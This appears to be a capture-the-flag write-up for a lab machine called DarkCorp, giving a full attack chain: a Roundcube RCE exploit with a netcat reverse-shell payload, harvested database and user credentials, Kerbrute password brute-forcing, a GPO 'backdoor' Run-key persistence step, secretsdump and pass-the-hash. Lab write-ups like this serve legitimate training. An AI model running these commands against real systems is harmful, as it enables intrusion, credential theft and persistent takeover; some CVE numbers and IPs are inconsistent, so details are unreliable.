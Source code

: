 
![](Dark_corp-bg.png)

## INFO


```nmap
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 33:41:ed:0a:a5:1a:86:d0:cc:2a:a6:2b:8d:8d:b2:ad (ECDSA)
|_  256 04:ad:7e:ba:11:0e:e0:fb:d0:80:d3:24:c2:3e:2c:c5 (ED25519)
80/tcp open  http    nginx 1.22.1
|_http-server-header: nginx/1.22.1
|_http-title: Site doesn't have a title (text/html).
```


``` Domaain
10.10.11.54     drip.htb  mail.drip.htb
```

Its RoundCube WebMail Server ; Lets register and login- to the portal for more info.


``` RoundCube_Version
Roundcube Webmail 1.6.7
```

This version of Rouncube is vulnerable to CVE-2024-4200 and CVE-2025-49113

CVE-2025-49113 is a dangerous exploit , just need a valid user and boom , but this aint the intended path , Check the exploit we get direct [RCE](https://github.com/hakaioffsec/CVE-2025-49113-exploit) 

CVE-2024-4200 , attacker can inject malicious JavaScript in a message and take advantage of a desanitization issue when parsing the HTML inside the message, which then can be used to exfiltrate email content from the victim's inbox. [XSS](https://github.com/DaniTheHack3r/CVE-2024-42009-PoC)



## Own Way 
### Unintended RCE [CVE-2025-49113]

```
php CVE-2025-49113.php http://mail.drip.htb/ admin admin "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.204 1337 >/tmp/f"
```

Once we get the RCE Search for juicy things....

```
www-data@drip:/var/www/html/dashboard$ cat .env

# If DB credentials (if NOT provided, or wrong values SQLite is used) 
DB_ENGINE=postgresql
DB_HOST=localhost
DB_NAME=dripmail
DB_USERNAME=dripmail_dba
DB_PASS=2Qa2SsBkQvsc
DB_PORT=5432

SQLALCHEMY_DATABASE_URI = 'postgresql://dripmail_dba:2Qa2SsBkQvsc@localhost/dripmail'
SQLALCHEMY_TRACK_MODIFICATIONS = True
SECRET_KEY = 'GCqtvsJtexx5B7xHNVxVj0y2X0m10jq'
MAIL_SERVER = 'drip.htb'
MAIL_PORT = 25
MAIL_USE_TLS = False
MAIL_USE_SSL = False
MAIL_USERNAME = None
MAIL_PASSWORD = None
MAIL_DEFAULT_SENDER = 'support@drip.htb'
```


Get Shell as postgres user and check /var/backups/postgres Then decrypt the file with GPG -> dev-dripmail.sql where we retrive usernames and hashes along with that.


### Domain Admin Access 

Once we got the doamin user credentials ; Now its time to pwn the AD.

```
ebelford :: ThePlague61780  [linux host only accessible ; ]

└─# sshpass -p ThePlague61780 ssh -o StrictHostKeyChecking=no ebelford@drip.htb

victor.r :: victor1gustavo@# [Domain User ]
```


```sshuttle
sshuttle -r ebelford@drip.htb 172.16.20.0/24
```


Run Bloodhound !

``` ssh_remote
ssh -o StrictHostKeyChecking=no -D 1080 ebelford@drip.htb
```

```/etc/proxychains4.conf
dnat 10.10.11.54  172.16.20.1

[ProxyList]
# add proxy here ...

socks5 127.0.0.1 1080

```


```
proxychains bloodhound-python --domain darkcorp.htb --domain-controller dc-01.darkcorp.htb --nameserver 172.16.20.1 --username victor.r --password 'victor1gustavo@#' --collectionmethod all --dns-tcp --zip 
```


Our Guy Dont have higher privilege ; But TAYLOR.B.ADM seems intresting.

![](dark-corp-bloodhound.png)


Only way is BruteForce with Kerbrute !

``` pass-pol
└─# nxc smb dc-01.darkcorp.htb -u victor.r -p 'victor1gustavo@#' --pass-pol


Minimum password length: 7

Reset Account Lockout Counter: 30 minutes
```


-> make a password list with minimum pass. length is 7 max. 12 ; or just extract it from rockyou ;

Transfer KErbrute and the custom_rockyou file to the Victim Machine ! 

```kerbrute
ebelford@drip:~$ ./Kerbrute_ bruteuser --dc 171.16.20.1 -d darkcorp.htb rockyou.txt taylor.b.adm -t 64


darkcorp.htb\taylor.b.adm:!QAZzaq1

```


### PRIV --> Group Policy Object (GPO) abuse in Windows for persistence and privilege escalation.


```proxy
sshuttle -r ebelford@drip.htb 172.16.20.0/24 
```

```winrm
evil-winrm -i dc-01.darkcorp.htb -u taylor.b.adm -p '!QAZzaq1' 
```


✅ Download & Execute Malicious Script

``` download
upload PowerGPOAbuse.ps1
```

Add User to Group via GPO

```
PS > . .\PowerGPOAbuse.ps1
PS > Add-GPOGroupMember -Member 'taylor.b.adm' -GPOIdentity 'SecurityUpdates'
True
```


✅ Persistence + PrivEsc via GPO 

--> Malicious GPO writes to HKLM\...\Run.

--> At every startup, a PowerShell cmd adds taylor.b.adm to Administrators.

--> Even if removed, it comes back → automatic re-admin + persistence.

 ```
 PS > Set-GPRegistryValue -Name "SecurityUpdates" `
-Key "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" `
-ValueName "backdoor" `
-Type String `
-Value "powershell -ExecutionPolicy Bypass -NoProfile -Command 'Add-LocalGroupMember -Group Administrators -Member taylor.b.adm'"
 
DisplayName      : SecurityUpdates
DomainName       : darkcorp.htb
Owner            : darkcorp\Domain Admins
Id               : 652cae9a-4bb7-49f2-9e52-3361f33ce786
GpoStatus        : AllSettingsEnabled
Description      : Windows Security Group Policy
CreationTime     : 1/3/2025 3:01:12 PM
ModificationTime : 9/30/2025 2:24:58 PM
UserVersion      : AD Version: 0, SysVol Version: 0
ComputerVersion  : AD Version: 2, SysVol Version: 2
WmiFilter        :


PS> gpupdate /force
Updating policy...

Computer Policy update has completed successfully.

User Policy update has completed successfully.
```


Dump the secrets 

HOw ? --> We just added taylor.b.adm as local administrator --> GPO "Security Updates"


```secretsdump
impacket-secretsdump dc-01.darkcorp.htb/taylor.b.adm:'!QAZzaq1'@darkcorp.htb
```

```root.txt
evil-winrm -i darkcorp.htb -u administrator -H fcb3ca5a19a1ccf2d14c13e8b64cde0f 

root.txt : fcef13756501763e4c4c13468c6c99d8
```


